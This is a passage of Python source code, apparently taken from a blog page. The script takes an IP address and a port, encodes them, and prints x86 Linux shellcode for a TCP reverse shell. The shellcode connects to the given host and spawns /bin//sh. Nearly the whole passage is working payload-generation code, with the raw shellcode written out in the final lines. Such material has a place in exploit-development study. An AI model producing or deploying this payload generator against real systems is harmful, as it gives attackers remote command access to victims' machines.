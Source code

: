     if len(h3) == 1:
        h3 = "0" + h3
    if h4 == "":
        h4 = "00"
    if len(h4) == 1:
        h4 = "0" + h4

    return "\\x%s\\x%s\\x%s\\x%s" % (h4, h3,h2, h1)

def port_to_hex(port):

    if port < 1024 or port > 65535:
        print "[!] invalid TCP port number: " + str(port)
        sys.exit(-1)

    no_port = socket.htons(port);
    hex_no_port = hex(no_port)

    h1 = hex_no_port[2:4]
    h2 = hex_no_port[4:6]

    if h1 == "":
        h1 = "00"

    if len(h1) == 1:
        h1 = "0" + h1

    if h2 == "":
        h2 = "00"

    if len(h2) == 1:
        h2 = "0" + h2

    return "\\x%s\\x%s" % (h2, h1)

if (len(sys.argv) != 3):
    print ("usage: " + argv[0] + " ip port");
    sys.exit(-1);


xored_hex_bin_ip = xor_ip_address(sys.argv[1])
hex_port_number = port_to_hex(int(sys.argv[2]))

print "Creating TCP reverse shell shellcode for IP: " + sys.argv[1] + " on port: " + str(sys.argv[2])
print "XOR'ed IP address translation: " + xored_hex_bin_ip
print "Hex port number translation: " + hex_port_number

shellcode="\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\xb8"+ xored_hex_bin_ip +"\\x83\\xf0\\xff\\x50\\x66\\x68" + hex_port_number + "\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\x31\\xc0\\x66\\xb8\\x6a\\x01\\xcd\\x80\\x85\\xc0\\x75\\x24\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80\\xb3\\x01\\x31\\xc0\\xb0\\x01\\xcd\\x80"

print shellcode

{% endhighlight %}
